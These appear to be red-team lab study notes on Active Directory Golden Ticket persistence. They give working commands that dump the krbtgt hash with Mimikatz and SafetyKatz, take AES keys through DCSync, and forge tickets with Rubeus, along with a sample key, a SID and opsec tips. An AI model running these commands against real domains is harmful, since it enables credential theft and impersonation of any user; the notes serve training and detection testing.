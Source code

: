 - Try not to use it in real engagement. Only use it to check for detection or to push boundaries.
- Need Domain admin priv for this attack
- A golden ticket is signed and encrypted by the hash of the krbtgt account which makes it a valid TGT ticket. 
- The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine. 
-  As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
- Execute mimikatz (or a variant) on DC as DA to get krbtgt hash 
```
Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’ -Computername dcorp-dc 
```
```
C:\AD\Tools\SafetyKatz.exe '"lsadump::lsa /patch"' 
```
(this is noisy)

-  To use the DCSync feature for getting AES keys for krbtgt account. Use the below command with DA privileges (or a user that has replication rights on the domain object): 
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" 
```
- Using the DCSync option needs no code execution on the target DC
- Use active domain user
- Run the below command to create a Golden ticket on any machine that has network connectivity with DC
```
C:\AD\Tools\BetterSafetykatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
### Persistence - Golden Ticket - Rubeus
- Use Rubeus to forge a Golden ticket with attributes similar to a normal TGT:
```
C:\AD\Tools\Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```
- Above command generates the ticket forging command. Note that 3 LDAP queries are sent to the DC to retrieve the values:
	- To retrieve flags for user specified in /user.
	- To retrieve /groups, /pgid, /minpassage and /maxpassage
	- To retrieve /netbios of the current domain
- If you have already enumerated the above values, manually specify as many you can in the forging command (a bit more opsec friendly).
- The Golden ticket forging command looks like this:
```
C:\AD\Tools\Rubeus.exe golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```